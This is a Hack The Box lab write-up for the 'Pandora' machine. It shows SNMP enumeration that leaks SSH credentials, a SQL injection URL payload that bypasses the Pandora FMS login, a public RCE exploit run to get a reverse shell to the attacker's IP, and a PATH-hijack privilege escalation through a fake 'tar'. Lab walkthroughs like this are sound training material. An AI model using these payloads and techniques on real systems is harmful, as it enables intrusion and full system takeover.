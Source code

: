 # [Pandora](https://app.hackthebox.com/machines/pandora)

```bash
nmap -p- --min-rate 10000 10.10.11.136 -Pn
```
![Alt text](img/image.png)

Let's do greater nmap scan for this hosts.

```bash
nmap -sC -sV -A -p22,80 10.10.11.136 
```
![Alt text](img/image-1.png)


Let's scan also UDP scan which we see that SNMP is open.
```bash
nmap -sU -top-ports=100 10.10.11.136 
```

![Alt text](img/image-2.png)

By the way, from grabbing, I see that I need to resolve this ip address into 'panda.htb'.


Here, I use `snmp-mibs-downloader` tool to enumerate SNMP.
With this tool I grab information related to SNMP then read results from here that what kind of information I can get.

```bash
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 . | tee -a snmp3
```

![Alt text](img/image-3.png)

I used like this, which writes results of SNMP enumeration into 'snmp3' file.

From here, I try to grab information that I can get maybe credentials.

Hola.

![Alt text](img/image-4.png)

I find below credentials, let's try to abuse this.

daniel: HotelBabylon23


Let's join to SSH service via above credentials.

![Alt text](img/image-5.png)



Here I find that Pandora FMS is used, let's try to see this via our attacker machine.
For this, we need to setup Local Port Forwarding (ssh -L option)

```bash
ssh -L localhost:8000:localhost:80 daniel@10.10.11.136
```

If we do this, we can access web application via browsing 'localhost:8000' on our browser.

![Alt text](img/image-6.png)



At the bottom, we can see that version 'v7.0NG.742_FIX_PERL2020' is used, let's try to search publicly known exploit.

I found RCE exploit [CVE-2020-5844](https://github.com/UNICORDev/exploit-CVE-2020-5844.git)


Let's send this exploit into our machine.
```bash
python3 -m http.server --bind 10.10.16.8 8080
```

![Alt text](img/image-8.png)

```bash
wget http://10.10.16.8:8080/exploit-CVE-2020-5844.py
```

![Alt text](img/image-7.png)


First, we need to get PHP session, for this, we need to bypass login form by using this [PoC](https://github.com/l3eol3eo/CVE-2021-32099_SQLi).

```bash
http://localhost:80/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a 
```

![Alt text](img/image-9.png)


Yes it worked , we get session id 'gu9ohtjtl3kr1sve6dle129fkf'


```bash
python3 exploit-CVE-2020-5844.py -t 127.0.0.1 80 -p gu9ohtjtl3kr1sve6dle129fkf -s 10.10.16.8 1337

```

![Alt text](img/image-10.png)


We got reverse shell.

![Alt text](img/image-11.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-12.png)


user.txt

![Alt text](img/image-13.png)


I just searched for SUID files via below command.
```bash
find / -perm -4000 -ls 2>/dev/null
```

![Alt text](img/image-14.png)


There is interesting one called '/usr/bin/pandora_backup'.

![Alt text](img/image-15.png)


While we want to look at executable's content, we see that `tar` command is used .

![Alt text](img/image-16.png)


First of all, I need to get good and interactive shell (persistent), for this I need to generate public key file.

![Alt text](img/image-18.png)

![Alt text](img/image-17.png)


We got interacteive shell by joining (via private key).

![Alt text](img/image-19.png)

Then, As I know `tar` command is used for `pandora_backup` binary, I need to create malicious `tar` command which give me shell of root. For this , I need to do below steps.

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
export PATH=/tmp:$PATH
/usr/bin/pandora_backup # run target executable
```

root.txt

![Alt text](img/image-20.png)